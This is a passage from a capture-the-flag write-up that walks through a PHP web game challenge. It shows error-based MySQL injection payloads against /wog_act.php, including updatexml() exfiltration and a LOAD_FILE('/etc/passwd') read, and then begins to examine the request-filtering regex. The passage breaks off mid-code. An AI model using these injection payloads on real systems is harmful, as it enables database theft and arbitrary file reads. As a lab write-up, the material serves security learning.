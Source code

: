 ```php
                $wog_act_class->shop($HTTP_COOKIE_VARS["wog_cookie"]);
            break;
            case "buy":
                $wog_act_class->buy($HTTP_COOKIE_VARS["wog_cookie"]);
            break;
        }
        unset($wog_item_tool);
    break;
    [...]
```

**That being said, we should be able to exploit an error-based MySQL injection in `/wog_act.php`:**
```http
adds=--+-&f=shop&act=buy&temp_id=0
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bauhinia-CTF-2023/images/Pasted%20image%2020230821111740.png)

Nice! We successfully triggered an SQL syntax error!

**According to [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/MySQL%20Injection.md#mysql-error-based---updatexml-function), we can exfiltrate the database data!**
```http
adds=1+and+updatexml(null,concat(0x0a,version()),null)--+-&f=shop&act=buy&temp_id=0
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bauhinia-CTF-2023/images/Pasted%20image%2020230821112112.png)

But... What can we even exfiltrate from the database... There's no other players in this game... Hell, where's the flag?

**Hmm... Maybe the flag file is in the challenge instance's file system??**

**If so, we can try to read arbitrary files via `LOAD_FILE()` in MySQL:**
```http
adds=1+and+updatexml(null,concat(0x0a,(select+LOAD_FILE('/etc/passwd'))),null)--+-&f=shop&act=buy&temp_id=0
```

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bauhinia-CTF-2023/images/Pasted%20image%2020230821112424.png)

Wait... The request contains abnormal characters (有不正常符號)?

**Let's find that request filtering:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/Bauhinia-CTF-2023/images/Pasted%20image%2020230821112833.png)

**In  `/function.php`, we can see that function `post_check()` is using regular expression (Regex) to filter the incoming request:**
```php
<?
[...]
function post_check($post)
{
    global $HTTP_COOKIE_VARS;
    foreach ($post as $v) {
        if(is_array($v))
        {
            for($i=0;$i<count($v);$i++)
            {
                if(eregi("[<>'\";\]", $v[$i]))
                {
                    alertWindowMsg("有不正常符號(1)");
                }
            }
        }else
        {
```